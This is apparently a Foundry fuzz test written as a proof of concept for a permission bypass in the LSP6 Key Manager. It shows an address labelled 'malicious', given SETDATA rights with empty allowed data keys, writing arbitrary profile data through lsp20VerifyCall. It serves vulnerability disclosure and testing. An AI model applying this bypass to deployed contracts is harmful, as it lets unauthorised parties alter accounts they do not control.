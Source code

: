 ```solidity
        LSP1Delegate = new LSP1UniversalReceiverDelegateUP();
        profile.setData(_LSP1_UNIVERSAL_RECEIVER_DELEGATE_KEY, bytes.concat(bytes20(address(LSP1Delegate))));
    }

    function testLSP6BypassAllowedDataKeys(bytes32 dataKey, bytes32 _dataValue) public {
        // dataKey cannot be LSP1, LSP6, or LSP17 data key
        vm.assume(bytes16(dataKey) != _LSP6KEY_ADDRESSPERMISSIONS_ARRAY_PREFIX);
        vm.assume(bytes6(dataKey) != _LSP6KEY_ADDRESSPERMISSIONS_PREFIX);
        vm.assume(bytes12(dataKey) != _LSP1_UNIVERSAL_RECEIVER_DELEGATE_PREFIX);
        vm.assume(bytes12(dataKey) != _LSP17_EXTENSION_PREFIX);

        // Give owner ability to transfer ownership
        bytes32 ownerDataKey = LSP2Utils.generateMappingWithGroupingKey(
            _LSP6KEY_ADDRESSPERMISSIONS_PERMISSIONS_PREFIX,
            bytes20(address(this))
        );
        profile.setData(ownerDataKey, bytes.concat(_PERMISSION_CHANGEOWNER));

        // Set permissions and allowed data keys for malicious address
        address malicious = vm.addr(1234);

        bytes32 permissionsDataKey = LSP2Utils.generateMappingWithGroupingKey(
            _LSP6KEY_ADDRESSPERMISSIONS_PERMISSIONS_PREFIX,
            bytes20(malicious)
        );
        bytes32 allowedDataKeysDataKey = LSP2Utils.generateMappingWithGroupingKey(
            _LSP6KEY_ADDRESSPERMISSIONS_AllowedERC725YDataKeys_PREFIX,
            bytes20(malicious)
        );

        profile.setData(permissionsDataKey, bytes.concat(_PERMISSION_SETDATA | _PERMISSION_CHANGEOWNER));
        profile.setData(allowedDataKeysDataKey, bytes.concat(bytes2(0)));

        // Transfer ownership to LSP6KeyManager
        profile.transferOwnership(address(keyManager));
        bytes memory payload = abi.encodeWithSelector(
            ILSP14Ownable2Step.acceptOwnership.selector, 
            ""
        );
        keyManager.execute(payload);
        assert(profile.owner() == address(keyManager));

        // Verify malicious can set data for most data keys
        bytes memory arg = abi.encode(dataKey, bytes.concat(_dataValue));
        bytes memory data = abi.encodeWithSelector(
            IERC725Y.setData.selector, 
            arg
        );
        keyManager.lsp20VerifyCall(malicious, 0, data);
    }
}
```
